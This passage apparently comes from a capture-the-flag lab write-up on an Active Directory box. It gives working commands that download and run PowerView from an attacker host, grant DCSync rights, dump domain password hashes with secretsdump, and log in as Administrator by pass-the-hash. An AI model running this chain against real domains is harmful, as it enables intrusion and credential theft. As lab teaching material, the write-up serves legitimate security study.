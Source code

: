 ```shell
net localgroup "Remote Management Users" hacker /add
```

We upload `PowerView.ps1` to the target using the following command which executes the script right away.

```shell
iex(new-object net.webclient).downloadstring("http://10.10.17.90/PowerView.ps1")
```

Now we run the following command to give the new user the `DCSync` right to be able to perform a DCSync attack and get the administrator's hash.

```shell
$pass = convertto-securestring 'Pass123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\hacker', $PASS)
Add-ObjectACL -PrincipalIdentity hacker -Credential $cred -Rights DCSync
```

Now on our attacker machine, we use `secretsdump.py` to perform a DCSync .

```shell
$ sudo secretsdump.py 'hacker:Pass123!@htb.local'                                                                                               130 ⨯
[sudo] password for sirius: 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We got the administrator's hash, now we can use `pass-the-hash` attack to login as `Administrator` using `evil-winrm`

```shell
$ evil-winrm -i htb.local -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

## **Prevention and Mitigation**
